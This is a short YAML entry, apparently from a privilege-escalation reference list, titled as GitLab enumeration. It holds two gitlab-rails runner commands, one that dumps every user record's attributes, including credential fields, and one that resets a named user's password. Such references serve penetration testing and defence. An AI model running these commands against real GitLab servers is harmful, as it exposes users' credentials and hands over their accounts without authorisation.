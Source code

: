 ```yaml
---
functions:
  privilege-escalation:
    - description: Simple Gitlab Enumeration
      code: |
        Dump the Database:
        gitlab-rails runner 'User.where.not(username: "peasssssssss").each { |u| pp u.attributes }'

        Change Passwords:
        gitlab-rails runner 'user = User.find_by(name: "dude"); user.password = "adminpassword"; user.password_confirmation = "adminpassword"; user.save!'
---
```

